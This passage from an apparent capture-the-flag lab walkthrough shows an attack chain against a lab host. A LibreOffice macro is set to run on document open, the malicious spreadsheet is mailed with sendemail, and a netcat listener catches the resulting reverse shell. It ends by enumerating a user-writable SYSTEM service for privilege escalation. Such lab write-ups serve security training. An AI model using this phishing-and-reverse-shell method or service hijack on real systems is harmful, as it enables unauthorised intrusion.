 We then need to make this macro run automatically when the document is opened.

We can accomplish this by going to the **Tools -> Customize** menu, then going to the **Events** tab. There, assign the macro to the **Open Document** event.

![](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Practice_65_image_1_MeZCcUr4.png)

### Sending the Email

While there are many options for this, we will use a simple command line tool.

```
kali@kali:~$ sendemail -f 'jonas@localhost' \
                       -t 'mailadmin@localhost' \
                       -s 192.168.120.132:25 \
                       -u 'Your spreadsheet' \
                       -m 'Here is your requested spreadsheet' \
                       -a bomb.ods
```

In this command, we send an email to `mailadmin@localhost` containing our `bomb.ods` attachment.

After sending that email, all that remains is to wait (it can take up to five minutes).

```
kali@kali:~$ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.118.8] from (UNKNOWN) [192.168.120.132] 49795
Microsoft Windows [Version 10.0.18363.1139]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\LibreOffice\program>whoami
whoami
hepet\ela arwel

C:\Program Files\LibreOffice\program>
```

## Escalation

While exploring the system, we find a service that grabs out attention.

```

C:\>wmic service get name,displayname,pathname,startmode |findstr /i "auto"
...
Veyon Service     VeyonService      C:\Users\Ela Arwel\Veyon\veyon-service.exe    Auto UnistackSvcGroup    Auto
...
```

The service is installed in our user's folder, so we should have full permissions to modify it.

It also runs with system privileges.

```
C:\>sc qc VeyonService
sc qc VeyonService
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: VeyonService
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Users\Ela Arwel\Veyon\veyon-service.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Veyon Service
        DEPENDENCIES       : Tcpip
```